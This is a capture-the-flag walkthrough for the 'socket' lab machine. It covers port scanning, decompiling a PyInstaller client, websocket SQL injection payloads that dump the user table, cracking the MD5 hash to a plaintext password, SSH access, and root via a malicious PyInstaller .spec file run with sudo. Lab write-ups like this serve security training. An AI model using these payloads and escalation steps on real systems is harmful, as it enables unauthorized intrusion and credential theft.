

# socket

| Hostname   | Difficulty |
| ---        | ---        |
| socket     | Medium     |

Machine IP: 10.10.11.206 :

```bash
TARGET=10.10.11.206       # socket IP address
```

## Initial Reconnaissance

### Ports and services

Start by port enumeration :

```shell
nmap -sC -sV -A $TARGET -p -
```

Result:

```text
Nmap scan report for 10.10.11.206
Host is up (0.019s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://qreader.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
5789/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Wed, 17 May 2023 19:46:15 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   Help, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Date: Wed, 17 May 2023 19:46:30 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|_    Failed to open a WebSocket connection: did not receive a valid HTTP request.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5789-TCP:V=7.93%I=7%D=5/17%Time=64652F08%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Wed,\x201
SF:7\x20May\x202023\x2019:46:15\x20GMT\r\nServer:\x20Python/3\.10\x20webso
SF:ckets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/plain\r\n
SF:Connection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocket\x20c
SF:onnection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20request\.\
SF:n")%r(GetRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Wed
SF:,\x2017\x20May\x202023\x2019:46:15\x20GMT\r\nServer:\x20Python/3\.10\x2
SF:0websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/pla
SF:in\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocke
SF:t\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20requ
SF:est\.\n")%r(HTTPOptions,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:
SF:\x20Wed,\x2017\x20May\x202023\x2019:46:15\x20GMT\r\nServer:\x20Python/3
SF:\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20t
SF:ext/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20W
SF:ebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\
SF:x20request\.\n")%r(RTSPRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nDate:\x20Wed,\x2017\x20May\x202023\x2019:46:15\x20GMT\r\nServer:\x20P
SF:ython/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Typ
SF:e:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x2
SF:0a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x
SF:20HTTP\x20request\.\n")%r(Help,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nDate:\x20Wed,\x2017\x20May\x202023\x2019:46:30\x20GMT\r\nServer:\x20P
SF:ython/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Typ
SF:e:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x2
SF:0a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x
SF:20HTTP\x20request\.\n")%r(SSLSessionReq,F4,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nDate:\x20Wed,\x2017\x20May\x202023\x2019:46:30\x20GMT\r\nSer
SF:ver:\x20Python/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nCo
SF:ntent-Type:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x
SF:20open\x20a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x
SF:20valid\x20HTTP\x20request\.\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/17%OT=22%CT=1%CU=31627%PV=Y%DS=2%DC=T%G=Y%TM=64652F6
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST11
OS:NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: Host: qreader.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   18.01 ms 10.10.14.1
2   18.40 ms 10.10.11.206

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.42 seconds
```

So the hosname is "qreader" :

```text
|_http-title: Did not follow redirect to http://qreader.htb/
```

```shell
echo "$TARGET    qreader.htb" >> /etc/hosts
```

### HTTP service - port 80/tcp

```shell
firefox http://qreader.htb/ &
```


When entering a text, it will generate a PNG image file, such as :


(Input text: "test me")

When giving this image back, it can read the text back ("test me").

### Port 5789/TCP

nmap could not find some match for this port, but when looking at the response :

```text
SF:7\x20May\x202023\x2019:46:15\x20GMT\r\nServer:\x20Python/3\.10\x20webso
SF:ckets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/plain\r\n
SF:Connection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocket\x20c
SF:onnection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20request\.
```

This is a websocket.

### QReader client

From the web page, it is provided a client :



```shell
wget http://qreader.htb/download/linux -O linux
```

The file "linux" is a zip file :

```shell
file linux
```

Result:

```text
linux: Zip archive data, at least v1.0 to extract
```

So we can extract its content :

```shell
unzip linux
```

Result:

```text
Archive:  linux
   creating: app/
  inflating: app/qreader             
  inflating: app/test.png 
```

There is a executable binary, and a test image.

With a quick analyse, we can see it is a python compiled into a executable :

```shell
strings qreader
```

```text
Cannot open PyInstaller archive from executable (%s) or external archive (%s)
Cannot side-load external archive %s (code %d)!
LOADER: failed to set linux process name!
...
ximportlib_metadata-4.6.4.egg-info/PKG-INFO
ximportlib_metadata-4.6.4.egg-info/dependency_links.txt
ximportlib_metadata-4.6.4.egg-info/requires.txt
ximportlib_metadata-4.6.4.egg-info/top_level.txt
xsetuptools-59.6.0.egg-info/PKG-INFO
xsetuptools-59.6.0.egg-info/dependency_links.txt
xsetuptools-59.6.0.egg-info/entry_points.txt
xsetuptools-59.6.0.egg-info/top_level.txt
xwebsockets-10.2.egg-info/PKG-INFO
xwebsockets-10.2.egg-info/dependency_links.txt
xwebsockets-10.2.egg-info/not-zip-safe
xwebsockets-10.2.egg-info/top_level.txt
xwheel-0.37.1.egg-info/PKG-INFO
xwheel-0.37.1.egg-info/dependency_links.txt
xwheel-0.37.1.egg-info/entry_points.txt
xwheel-0.37.1.egg-info/not-zip-safe
xwheel-0.37.1.egg-info/requires.txt
xwheel-0.37.1.egg-info/top_level.txt
```

So we need to extract the content from this PyInstaller archive.

https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/specific-software-file-type-tricks/.pyc

After some research, I have found [PyInstaller Extractor](https://github.com/extremecoders-re/pyinstxtractor): PyInstaller Extractor is a Python script to extract the contents of a PyInstaller generated executable file.

```shell
wget https://raw.githubusercontent.com/extremecoders-re/pyinstxtractor/master/pyinstxtractor.py
python2 ./pyinstxtractor.py qreader/app/qreader
```

result:

```text
[+] Processing qreader/app/qreader
[+] Pyinstaller version: 2.1+
[+] Python version: 3.10
[+] Length of package: 108535118 bytes
[+] Found 305 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_subprocess.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_pyqt5.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: qreader.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.10 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: qreader/app/qreader

You can now use a python decompiler on the pyc files within the extracted directory
```

We now need to decompile `*.pyc` in readable `*.py` files. A quick research get "Decompyle++" : A Python Byte-code Disassembler/Decompiler

```bash
git clone https://github.com/zrax/pycdc.git
cd pycdc

cmake .
make

./pycdc ../qreader_extracted/qreader.pyc
```

The resulting python file :

```python
# Source Generated with Decompyle++
# File: qreader.pyc (Python 3.10)

import cv2
import sys
import qrcode
import tempfile
import random
import os
from PyQt5.QtWidgets import *
from PyQt5 import uic, QtGui
import asyncio
import websockets
import json
VERSION = '0.0.2'
ws_host = 'ws://ws.qreader.htb:5789'
icon_path = './icon.png'

def setup_env():
Unsupported opcode: WITH_EXCEPT_START
    global tmp_file_name
    pass
# WARNING: Decompyle incomplete


class MyGUI(QMainWindow):
    
    def __init__(self = None):
        super(MyGUI, self).__init__()
        uic.loadUi(tmp_file_name, self)
        self.show()
        self.current_file = ''
        self.actionImport.triggered.connect(self.load_image)
        self.actionSave.triggered.connect(self.save_image)
        self.actionQuit.triggered.connect(self.quit_reader)
        self.actionVersion.triggered.connect(self.version)
        self.actionUpdate.triggered.connect(self.update)
        self.pushButton.clicked.connect(self.read_code)
        self.pushButton_2.clicked.connect(self.generate_code)
        self.initUI()

    def initUI(self):
        self.setWindowIcon(QtGui.QIcon(icon_path))

    def load_image(self):
        options = QFileDialog.Options()
        (filename, _) = QFileDialog.getOpenFileName(self, 'Open File', '', 'All Files (*)')
        if filename != '':
            self.current_file = filename
            pixmap = QtGui.QPixmap(self.current_file)
            pixmap = pixmap.scaled(300, 300)
            self.label.setScaledContents(True)
            self.label.setPixmap(pixmap)
            return None

    def save_image(self):
        options = QFileDialog.Options()
        (filename, _) = QFileDialog.getSaveFileName(self, 'Save File', '', 'PNG (*.png)', options, **('options',))
        if filename != '':
            img = self.label.pixmap()
            img.save(filename, 'PNG')
            return None

    def read_code(self):
        if self.current_file != '':
            img = cv2.imread(self.current_file)
            detector = cv2.QRCodeDetector()
            (data, bbox, straight_qrcode) = detector.detectAndDecode(img)
            self.textEdit.setText(data)
            return None
        None.statusBar().showMessage('[ERROR] No image is imported!')

    def generate_code(self):
        qr = qrcode.QRCode(1, qrcode.constants.ERROR_CORRECT_L, 20, 2, **('version', 'error_correction', 'box_size', 'border'))
        qr.add_data(self.textEdit.toPlainText())
        qr.make(True, **('fit',))
        img = qr.make_image('black', 'white', **('fill_color', 'back_color'))
        img.save('current.png')
        pixmap = QtGui.QPixmap('current.png')
        pixmap = pixmap.scaled(300, 300)
        self.label.setScaledContents(True)
        self.label.setPixmap(pixmap)

    def quit_reader(self):
        if os.path.exists(tmp_file_name):
            os.remove(tmp_file_name)
        sys.exit()

    def version(self):
        response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            version_info = data['message']
            msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)

    def update(self):
        response = asyncio.run(ws_connect(ws_host + '/update', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            msg = '[INFO] ' + data['message']
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)

    __classcell__ = None

async def ws_connect(url, msg):
Unsupported opcode: GEN_START
    pass
# WARNING: Decompyle incomplete

def main():
    (status, e) = setup_env()
    if not status:
        print('[-] Problem occured while setting up the env!')
    app = QApplication([])
    window = MyGUI()
    app.exec_()

if __name__ == '__main__':
    main()
    return None
```

This confirm the host and port :

```python
ws_host = 'ws://ws.qreader.htb:5789'
```

The version query seems interesting for the version query:

```python
        response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            version_info = data['message']
            msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
```

and the same for the update query :

```python
        response = asyncio.run(ws_connect(ws_host + '/update', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            msg = '[INFO] ' + data['message']
            self.statusBar().showMessage(msg)
```

This seem to be an information searched in a database.

### Websocket

```python
import json
import websocket

ws_host = 'ws://qreader.htb:5789/version'

VERSION = '0.0.2'

def on_message(ws, message):
    print(message)

def on_error(ws, error):
    print(error)

def on_close(ws):
    print("### closed ###")

def on_open(ws):
    json_payload = {"version": VERSION}  
    ws.send(json.dumps(json_payload))

ws = websocket.WebSocket()
ws.connect( ws_host )

json_payload = {"version": VERSION}  
ws.send(json.dumps(json_payload))

print(ws.recv())
ws.close()
```

And execute it in a python virtualenv environnement with websocket-client library :

```bash
virtualenv -p python3 .venv 
. .venv/bin/activate
pip install websocket-client
python3 qreader-socket.py
```

output:

```text
{"message": {"id": 2, "version": "0.0.2", "released_date": "26/09/2022", "downloads": 720}}
```

This reproduce how the qreader client request the server.

When using :

```python
VERSION = "0.0.2'"
```

Output :

```text
{"message": "Invalid version!"}
```

But with :

```python
VERSION = '0.0.2"'
```

There is no response.This seems to indicate we could have broken the SQL request.

We can continue our exploration by confirming there are 4 columns with :

```python
VERSION = '0.0.2" UNION SELECT 1,2,3,4;-- '
```

We can confirm this is a SQLite database with :

```python
VERSION = '0.0.2" UNION SELECT sqlite_version(),2,3,4;-- '
```

```text
{"message": {"id": "3.37.2", "version": 2, "released_date": 3, "downloads": 4}}
```

This is a SQLite engine version "3.37.2". 

We can use some SQL tips from : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

We can also get the schema of the table :

```python
VERSION = '0.0.2"UNION SELECT sql,2,3,4 from sqlite_schema-- -'
```

output:

```text
{"message": {"id": "CREATE TABLE versions (id INTEGER PRIMARY KEY AUTOINCREMENT, version TEXT, released_date DATE, downloads INTEGER)", "version": 2, "released_date": 3, "downloads": 4}}
```

This is the table "versions" with 4 columns. Let's continue to enumerate tables :

```python
VERSION = '0.0.2"UNION SELECT sql,2,3,4 from sqlite_schema where sql not like "CREATE TABLE versions %"-- -' # list tables
```

output :
```text
{"message": {"id": "CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password DATE, role TEXT)", "version": 2, "released_date": 3, "downloads": 4}}
```


```python
VERSION = '0.0.2"UNION SELECT sql,2,3,4 from sqlite_schema where sql not like "CREATE TABLE versions %" and sql not like "CREATE TABLE users %"-- -' # list tables
```

output :
```text
{"message": {"id": "CREATE TABLE sqlite_sequence(name,seq)", "version": 2, "released_date": 3, "downloads": 4}}
```


```python
VERSION = '0.0.2"UNION SELECT sql,2,3,4 from sqlite_schema where sql not like "CREATE TABLE versions %" and sql not like "CREATE TABLE users %" and sql not like "CREATE TABLE sqlite_%" -- -' # list tables
```

output :
```text
{"message": {"id": "CREATE TABLE reports (id INTEGER PRIMARY KEY AUTOINCREMENT, reporter_name TEXT, subject TEXT, description TEXT, reported_date DATE)", "version": 2, "released_date": 3, "downloads": 4}}
```


```python
VERSION = '0.0.2"UNION SELECT sql,2,3,4 from sqlite_schema where sql not like "CREATE TABLE versions %" and sql not like "CREATE TABLE users %" and sql not like "CREATE TABLE sqlite_%" and sql not like "CREATE TABLE reports %" -- -' # list tables
```

output :
```text
{"message": {"id": "CREATE TABLE info (id INTEGER PRIMARY KEY AUTOINCREMENT, key TEXT, value TEXT)", "version": 2, "released_date": 3, "downloads": 4}}
```


```python
VERSION = '0.0.2 "UNION SELECT sql,2,3,4 from sqlite_schema where sql not like "CREATE TABLE versions %" and sql not like "CREATE TABLE users %" and sql not like "CREATE TABLE sqlite_%" and sql not like "CREATE TABLE reports %" and sql not like "CREATE TABLE info %" -- -' # list tables
```

output :

```text
{"message": {"id": "CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id))", "version": 2, "released_date": 3, "downloads": 4}}
```


So we have 4 tables :

- info
- reports
- users
- answers

we can explore these table to find informations, in "users" table :

```python
VERSION = '0.0.2" UNION SELECT username,password,role,4 FROM users; -- '
```

output :

```text
{"message": {"id": "admin", "version": "0c090c365fa0559b151a43e0fea39710", "released_date": "admin", "downloads": 4}}
```

there is no other users.

```python
VERSION = '0.0.2" UNION SELECT answered_by,answer,3,4 FROM answers; -- '
```

output :

```text
{"message": {"id": "admin", "version": "Hello Mike,\n\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\n\nThomas Keller", "released_date": 3, "downloads": 4}}
```

We can find a reference to a user named "Thomas Keller".

### password crack

Let's crack this MD5 hash :

```shell
echo "0c090c365fa0559b151a43e0fea39710" > hash.txt
hashcat -m 0 ./hash.txt /usr/share/wordlists/rockyou.txt
```

output :

```text
0c090c365fa0559b151a43e0fea39710:denjanjade122566
```


## Initial access

Knowing the user "Thomas Keller" and the password "denjanjade122566", we can open a SSH connection :

```bash
ssh tkeller@qreader.htb
```


## Post-Exploitation

### Host Reconnaissance

```bash
sudo -l
```


```text
User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```

The script /usr/local/sbin/build-installer.sh :

```bash
#!/bin/bash
if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
  /usr/bin/echo "No enough arguments supplied"
  exit 1;
fi

action=$1
name=$2
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')

if [[ -L $name ]];then
  /usr/bin/echo 'Symlinks are not allowed'
  exit 1;
fi

if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
  if [[ $ext == 'py' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```

This script takes 2 first paramters :

```bash
action=$1
name=$2
```

Then the script execute some python code with :

```bash
/home/svc/.local/bin/pyinstaller $name
```

There is a condition for this execution :

```bash
if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
```

with : 

```bash
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')
```

so the second parameter (`$name`) is a file name with extention named '.spec'

### Privilege Escalation

```bash
cat <<EOF >>xploit.spec
import os
os.system("/bin/bash")
EOF

sudo /usr/local/sbin/build-installer.sh build xploit.spec
```

Result is a root shell

```text
412 INFO: PyInstaller: 5.6.2
412 INFO: Python: 3.10.6
414 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
420 INFO: UPX is not available.
root@socket:/home/tkeller# id
uid=0(root) gid=0(root) groups=0(root)
root@socket:/home/tkeller# 

```

